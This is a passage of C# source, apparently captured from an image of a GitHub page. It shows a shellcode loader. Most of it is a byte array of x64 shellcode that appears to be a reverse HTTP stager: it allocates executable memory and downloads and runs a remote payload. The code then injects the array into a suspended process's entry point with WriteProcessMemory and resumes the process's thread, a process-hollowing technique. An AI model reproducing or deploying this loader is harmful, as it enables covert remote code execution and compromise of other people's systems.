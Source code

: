 ```csharp
                                            0x73,0x49,0x30,0x33,0x46,0x48,0x64,0x32,0x64,0x2d,0x45,0x53,
                                            0x57,0x5f,0x4d,0x49,0x30,0x32,0x71,0x63,0x41,0x48,0x77,0x74,
                                            0x74,0x72,0x5f,0x5a,0x31,0x67,0x35,0x52,0x58,0x64,0x68,0x68,
                                            0x42,0x46,0x31,0x4e,0x42,0x34,0x54,0x00,0x48,0x89,0xc1,0x53,
                                            0x5a,0x41,0x58,0x4d,0x31,0xc9,0x53,0x48,0xb8,0x00,0x32,0xa8,
                                            0x84,0x00,0x00,0x00,0x00,0x50,0x53,0x53,0x49,0xc7,0xc2,0xeb,
                                            0x55,0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0x0a,0x5f,0x48,
                                            0x89,0xf1,0x6a,0x1f,0x5a,0x52,0x68,0x80,0x33,0x00,0x00,0x49,
                                            0x89,0xe0,0x6a,0x04,0x41,0x59,0x49,0xba,0x75,0x46,0x9e,0x86,
                                            0x00,0x00,0x00,0x00,0xff,0xd5,0x4d,0x31,0xc0,0x53,0x5a,0x48,
                                            0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,0x53,0x49,0xc7,
                                            0xc2,0x2d,0x06,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,
                                            0xc7,0xc1,0x88,0x13,0x00,0x00,0x49,0xba,0x44,0xf0,0x35,0xe0,
                                            0x00,0x00,0x00,0x00,0xff,0xd5,0x48,0xff,0xcf,0x74,0x02,0xeb,
                                            0xaa,0xe8,0x55,0x00,0x00,0x00,0x53,0x59,0x6a,0x40,0x5a,0x49,
                                            0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x00,0x10,0x00,0x00,
                                            0x49,0xba,0x58,0xa4,0x53,0xe5,0x00,0x00,0x00,0x00,0xff,0xd5,
                                            0x48,0x93,0x53,0x53,0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x89,
                                            0xda,0x49,0xc7,0xc0,0x00,0x20,0x00,0x00,0x49,0x89,0xf9,0x49,
                                            0xba,0x12,0x96,0x89,0xe2,0x00,0x00,0x00,0x00,0xff,0xd5,0x48,
                                            0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x07,0x48,0x01,
                                            0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x00,0x59,0xbb,
                                            0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff,0xd5};

        WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
        ResumeThread(pi.hThread);

    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}

```
